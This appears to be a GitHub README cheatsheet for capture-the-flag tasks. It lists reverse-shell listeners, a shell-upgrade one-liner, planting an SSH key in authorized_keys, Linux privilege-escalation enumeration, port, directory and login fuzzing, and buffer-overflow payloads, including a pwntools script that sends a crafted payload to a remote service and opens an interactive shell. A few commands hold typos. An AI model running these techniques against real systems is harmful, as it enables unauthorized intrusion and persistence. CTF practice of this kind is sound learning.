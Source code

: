 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.
## initial tasks and enumeration
## linux privileges
##### exploits/privesc for common binaries
https://gtfobins.github.io/
##### listen for reverse shell connection
```bash
nc -lvp 1234
# or
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
##### add ssh key to trusted (login)
```bash
echo "public key on kali" >> authorized_keys
```
##### create python webserver
```
python -m SimpleHTTPServer 4004
python3 -m http.server 4004
```
##### upgrade shell with python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
##### get current user
```bash
whoami
```
##### change user to username
```bash
su - username
```
##### check, what can be executed with root
```bash
sudo -l
```
##### enumerate linux system (for example with www-data user)
```bash
https://github.com/rebootuser/LinEnum
```
## reverse hash
```bash
john hashes.txt --word-list=/usr/share/wordlists/somelist.txt --fformat-Raw-SHA256 --show
```
## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```

##### portscan
###### nmap, initial scan (scans ~1000 scans)
```bash
nmap -Pn -n -oN nmap_initial.txt 10.10.10.10
nmap -sV -sT -sC -o nmap_initial2.txt 10.10.10.10
```
###### nmap, full port scan
```bash
namp -A -p- -oN nmap_full.txt 10.10.10.10
```
###### nmap, target scan on port 20 and 80
```bash
nmap -Pn -n -p22,80 -sC -sV -oN nmap/targeted 10.10.10.10
```
##### scan for folders and files
###### gobuster, search for folders
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
###### gobuster, search for files (.txt / .php / etc)
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt -x txt
```
##### scan for subdomains
1) add domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
##### http GET/POST methods
###### curl GET with --data 
```bash
curl --get -d name=admin -d shoesize=12 http://example.com/
```
###### curl POST with --data 
```bash
curl -d name=admin -d shoesize=12 http://example.com/
```
###### wfuzz enumerate POST with --data
```bash
wfuzz -c -d "username=FUZZ&password=n00bsec" -w /usr/share/seclists/Usernames/Names/names.txt -u http://10.10.10.73/login.php
```

## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## linux binary debugger [gdb]
with peda plugin: https://github.com/longld/peda
###### useful commands
```bash
gdb ./file        # open binary in gdb
run               # r: run binary from start till to first breakpoint
break *0x080492c0 # set breakpoint to address
break main        # set breakpoint to beginning of main() function
info break        # show all breakpoints
-> del 1          # delete first breakpoint
continue          # c: continue execution till next breakpoint
next              # n: execute one line
x/300xb $esp      # show 300 bytes from stack (esp)
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password

### good writeupts:
https://noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/